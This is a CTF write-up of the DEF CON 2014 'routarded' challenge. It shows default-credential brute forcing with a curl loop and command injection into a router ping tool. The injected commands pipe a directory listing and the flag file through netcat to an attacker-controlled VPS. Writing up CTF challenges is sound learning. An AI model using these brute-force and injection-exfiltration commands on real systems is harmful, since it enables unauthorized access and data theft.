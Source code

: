 # DEF CON CTF Qualifier 2014: routarded

**Category:** Baby’s First
**Points:** 1
**Description:**

> Wow, they forwarded http on a router with default creds?
>
> http://routarded_87f7837f50a5370771b9467d840c93c5.2014.shallweplayaga.me:5000/

## Write-up

The hint mentioned default credentials, so we tried some default credentials. After some trying, we found out leaving the username field empty and entering `admin` for the password successfully logged us in.

In the router’s web interface, there was a page to ping IP addresses and domain names (amongst other things). When we attempted to add another command to that, the command was sanitized. For example, entering `8.8.8.8; ls` got sanitized into `8.8.8.8`. However, we saw the sanitizing happening in the browser. Seems like a case of JavaScript-only protection!

We disabled JavaScript in our browser and tried entering `; ls`. This effectively bypassed the filter (i.e. they didn’t do any sanitizing on the back-end), and we got the directory listing this time:

```
bower_components
flag
requirements.txt
routarded.py
static
templates
```

The `flag` file seemed like the right thing. Let’s enter `; cat flag`:

```
The flag is: l0l, can't believe they still do this shit
```

## Write-up 2 (by @d1rt_diggler)

**Note: this is from memory, so some details might be slightly off.**

### Casing the joint

Connecting to the server via browser greated you with a standard HTTP auth prompt. There was no splash page, and I don’t recall anything fancy in the headers, so no hints there…

###Defaults, okay, but WHICH defaults?
I started with your basics by hand (you never know!) admin:admin, admin:password, admin:blank, administrator:administrator, etc.
all without success, I didn't have a password list for router defaults on hand but about 2 minutes of Goog-fu turned some up.  I found http://defaultpassword.com and liked the format and variety, so I just did a full copy and paste of the home page (which lists all the passwords by default, awesome!) and dropped it into a text file.

The defaults were kind of weird though and since it seems to be crowd sourced the standarization for (blank), (none), n/a, etc. was... well, not standard.  I ended up passing the list through a couple grep and awk 1 liners to get only HTTP auth versions and to clean it up the non-standard types for "blank".
```
$ cat passwords.txt | awk '{print $6" "$7}' > first_pass.txt
$ cat first_pass.txt | awk {gsub('\\(none\\)','',$1); gsub('\\(none\\)','',$2);print $1" "$2}' > second_pass.txt
$ cat second_pass.txt | awk {gsub('n\\a','',$1); gsub('n\\a','',$2);print $1" "$2}' > third_pass.txt
$ cat third_pass.txt | awk {gsub('\\(blank\\)','',$1); gsub('\\(blank\\)','',$2);print $1" "$2}' > last_pass.txt
```
Those turned this...
```
3com    cellplex        7000    Telnet  admin   admin   Admin   No
3COM    CellPlex        7000    Telnet  tech    tech    Admin   No
3COM    CellPlex                HTTP    admin   synnet  Admin   No
3COM    CoreBuilder     7000/6000/3500/2500     Telnet  debug   synnet          No
3COM    CoreBuilder     7000/6000/3500/2500     Telnet  tech    tech            No
3COM    HiPerARC        v4.1.x  Telnet  adm     (none)  Admin   No
```
Into this... (roughly... it wasn't perfect, but I was aiming for "good enough")
```
admin admin
tech tech
admin synnet
debug synnet
tech tech
adm
```
Now we had a condensed list, but there were some dupes, no use in retrying pairs.
```
$ cat last_pass.txt | sort | uniq > uniq_pass.txt
```
This would turn
```
admin admin
admin admin
admin password
admin admin
admin administrator
admin admin
admin administrator
admin password
```
Into
```
admin admin
admin administrator
admin password
```
Which would reduce the amount of time it needed to test since we wouldn't be pointlessly testing the same creds over and over.

Now I wanted to format these into the HTTP user:pass format for curl
```
$ cat uniq_pass.txt | awk '{print $1":"$2}' > http_auths.txt
```
Which turned the list generated earlier into
```
admin:admin
tech:tech
admin:synnet
debug:synnet
tech:tech
adm:
```
###We've got our creds, now we need to test em'
Open up good ole vim and pumped out a shell script that would loop over the creds file and attempt
a curl to the router using a set of credentials... if it failed, it would be a 1 line error, if it
worked I'd see a flood of HTML content.

```bash
#!/usr/bin/env bash
users=$(cat http_auths.txt);
for user in $users; do
  echo $user;
  echo "";
  curl -u "$user" "http://routarded_87f7837f50a5370771b9467d840c93c5.2014.shallweplayaga.me:5000/";
  echo "-----"
done;
```

Run it and scan the results for a successful auth.

```bash
$ ./test_auths | less
```

### `[BLANK]:admin`

Of course, the one default I didn’t think to try by hand… OF COURSE!

### Now we're in, let's look around
There really wasn't much to see, under the "tools" or "settings" tab (I can't remember which) there were
two tools that caught my eye, one was a traceroute, the other ping.  Running either returned nothing. I
actually thought something was misconfigured (like legitmately, not in the "break this piece" sense) and
looked around for a few more minutes before deciding to see if I could abuse the ping tool. I was going
in blind though since I couldn't tell if these tools were even getting to a system behind the scenes...
how could I do a simple blind test to see...

```
ping [ google.com ]
(page hangs for roughly 3 seconds, loads)
ping [ 127.asdf.asdf.174188 ]
(page loads immediately)
```

Hmmm okay, so it does seem like it's actually running a ping in the background, maybe it's injectable? I can't
really tell from the busted ass web UI tho... maybe I can get it to phone home.  I jump on my public facing VPS
and type in:

```
$ nc -vvv -lp 4545
Listening on any address 4545 (worldscores)
```

Time to find out...

```
ping [ 127.0.0.1; nc myvps.domains.lol 4545; ]
```

YEAH BUDDY!

```
Connection from 133.7.101.256:49245
```

### Scope the joint

Well we confirmed we had an injectable script, and we confirmed we could phone home, now we just need to
get our hands on that flag... but where the hell is it and where the hell am I?!

```
ping [ 127.0.0.1; ls -lahR /home/ | nc myvps.domains.lol 4545; ]
```

On my listening machine...

```
..snip..
/home/routarded/ (or / I don't remember...)
-rw-r--r--  1 routarded routarded  21   May 14 19:56 flag
..snip..
```

### Gettin’ the goods

Well, we've found it, so we’re pretty much done, all I need to do now is read the file and we’re golden.
```
ping [ 127.0.0.1; cat /home/routarded/flag | nc myvps.domains.lol 4545; ]
```

And on my listening machine...

```
$ nc -vvv -lp 4545
Listening on any address 4545 (worldscores)
Connection from 133.7.101.256:49245
The flag is: l0l, can't believe they still do this shit
```

## Other write-ups and resources

* <http://www.incertia.net/blog/defcon-ctf-qualifiers-2014-routarded/>
* <https://hackucf.org/blog/routarded/>
